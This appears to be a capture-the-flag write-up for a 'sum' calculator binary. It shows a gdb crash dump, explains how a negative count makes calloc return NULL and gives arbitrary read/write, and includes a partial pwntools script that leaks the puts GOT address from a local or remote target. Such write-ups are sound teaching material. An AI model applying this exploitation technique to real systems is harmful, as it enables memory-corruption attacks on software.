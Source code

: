 ```
[-------------------------------------code-------------------------------------]
   0x400ab4 <calculator+478>:   cmp    rax,QWORD PTR [rsp]
   0x400ab8 <calculator+482>:   jae    0x4009da <calculator+260>
   0x400abe <calculator+488>:   mov    rdx,QWORD PTR [rsp+0x20]
=> 0x400ac3 <calculator+493>:   mov    QWORD PTR [r12+rax*8],rdx
   0x400ac7 <calculator+497>:   jmp    0x400a54 <calculator+382>
   0x400ac9 <calculator+499>:   mov    rax,QWORD PTR [rsp+0x18]
   0x400ace <calculator+504>:   cmp    rax,QWORD PTR [rsp]
   0x400ad2 <calculator+508>:   jae    0x400af3 <calculator+541>
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdc30 --> 0xffffffffffffffff 
0008| 0x7fffffffdc38 --> 0x603670 ("set 5000 500\n")
0016| 0x7fffffffdc40 --> 0x78 ('x')
0024| 0x7fffffffdc48 --> 0x1388 
0032| 0x7fffffffdc50 --> 0x1f4 
0040| 0x7fffffffdc58 --> 0x8b364cb51f106b00 
0048| 0x7fffffffdc60 --> 0x0 
0056| 0x7fffffffdc68 --> 0x400bb0 (<__libc_csu_init>:   push   r15)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000400ac3 in calculator ()
gdb-peda$ 
```
clearly Segmentation Fault Occured in the function calculator because of this statement
                        **mov    QWORD PTR [r12+rax*8],rdx**

value from rdx is stored at the address [r12+rax*8]
and if you debug the binary in gdb yourself, you will find that rax if the index value that we provide in "set 5000 50"
which means 5000 and rdx is the value we set to it which is 50 in this case

and if we look a little up in calculator()
we see what is r12

```
   0x000000000040098a <+180>:   call   0x400760 <calloc@plt>
   0x000000000040098f <+185>:   mov    r12,rax
```

when we input -1 calloc returns NULL or 0.so, r12 is 0 if we supply -ve values because you just cant allocate -ve space in memory.

so this statement just becomes 
                        **mov    QWORD PTR [rax*8],rdx**
                        
so the vulnerability is clear we have arbitrary read-write primitive.
but first lets try to **get** something from the binary, lets try to leak the address of puts from the binary
we will do that using pwntools. 
```
rom pwn import *
#context.log_level = "critical"
exe = ELF("./sum")
local = True
if local:
        p = process("./sum")
else:
        p = remote("52.15.72.79", 14012)

puts_got = exe.got.puts/8

p.sendlineafter("How many values to you want to sum up?\n> ", "-1")
p.recvuntil("\n> ")
p.sendline("get "+str(puts_got))
puts = int(p.recv(16))
```
